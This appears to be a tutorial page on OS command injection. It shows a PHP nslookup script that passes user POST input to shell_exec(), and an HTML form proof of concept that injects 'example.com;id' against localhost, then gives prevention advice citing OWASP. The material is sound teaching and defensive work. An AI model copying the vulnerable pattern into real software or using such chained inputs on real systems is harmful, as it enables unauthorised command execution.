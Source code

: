 ![Command Injection](image/commandi.png?raw=true "Command Injection")

# Description
Command injection is an attack in which the goal is execution of arbitrary commands on the host operating system via a vulnerable application. Command injection attacks are possible when an application passes unsafe user supplied data (forms, cookies, HTTP headers etc.) to a system shell. In this attack, the attacker-supplied operating system commands are usually executed with the privileges of the vulnerable application. Command injection attacks are possible largely due to insufficient input validation.


# Example
Let's analyze following code which does nslookup of a given domain.

```php
<?php
    if(isset($_POST["target"]))
    {
        $target = $_POST["target"];
        if($target == "")
        {
            echo "<font color=\"red\">Enter a domain name...</font>";
        }
        else
        {
            echo "<p align=\"left\">" . shell_exec("nslookup  " . commandi($target)) . "</p>";
        }
    }
?>
```
If you see here, target is taken through post request which is fully user controlled. So, if we passed our command via target, it will go inside shell_exec() function then the command is passed to the shell. So, we can simply break the nslookup command and execute our own new command.

# Exploit:
```html
<html>
  <body>
    <form action="https://localhost/injection.php" method="POST">
      <input type="hidden" name="target" value="example.com;id" />
      <input type="hidden" name="form" value="submit" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```
As you can see here, we have simply breaked the nslookup command with `;` which means command seperation in linux. Then, we have passed our own command `id` which will give us the current user id. So, in this way we can execute any command we want just like we did `id` command in above POC.


# Prevention:
Developers must use structured mechanisms that automatically enforce the separation between data and code.

Importantly, OS Command Injection vulnerabilities can be entirely prevented if developers stringently avoid OS Command call outs from the application layer. Alternative methods of implementing necessary levels of functionality almost always exist.

If invoking the command shell is unavoidable, endeavor not to use functions that call out using a single string; rather, opt for functions that require a list of individual arguments. These functions typically perform appropriate quoting and filtering of arguments.

References: [OWASP](https://www.owasp.org/index.php/Command_Injection)